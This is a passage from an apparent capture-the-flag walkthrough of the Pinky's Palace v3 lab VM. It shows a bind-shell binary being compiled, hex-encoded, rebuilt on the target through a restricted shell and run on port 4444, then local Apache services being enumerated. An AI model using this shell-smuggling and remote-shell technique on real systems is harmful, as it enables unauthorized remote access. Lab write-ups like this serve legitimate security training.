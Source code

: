 Compile `bindshell.c` for the 32-bit platform. If you are running a 32-bit GNU/Linux distribution, then you can drop the `-m32`.

```
# gcc -m32 -o bindshell bindshell.c
```

Compress it with `gzip` and convert it to the hexadecimal representation with `xxd`.

```
# gzip -c < bindshell > bindshell.gz
# xxd -p bindshell.gz | tr -d '\n' && echo
```

Reverse the process over at the fake shell.

```
> echo 1f8b...0000 > /tmp/bindshell.gz.hex
> xxd -p -r < /tmp/bindshell.gz.hex > /tmp/bindshell.gz
> gunzip -c < /tmp/bindshell.gz > /tmp/bindshell
> chmod 755 /tmp/bindshell
> /tmp/bindshell 4444
```

Connect to the bind shell with `nc` and spawn a pseudo-TTY.

![8bb72670.png](/assets/images/posts/pinkys-palace-v3-walkthrough/8bb72670.png)

Now that I've a proper shell, let's find out what else the VM has to offer. I soon discover that `pinksec` is running two instances of Apache at `80/tcp` and `65334/tcp` on the loopback interface, i.e. 127.0.0.1.

Here's how to determine:
+ check `ps auwx` and notice that `pinksec` is running Apache
+ check `netstat -lunt` and notice that the loopback interface is listening on `80/tcp` and `65334/tcp`.
+ confirm the above observations with Apache configuration

![826d94fa.png](/assets/images/posts/pinkys-palace-v3-walkthrough/826d94fa.png)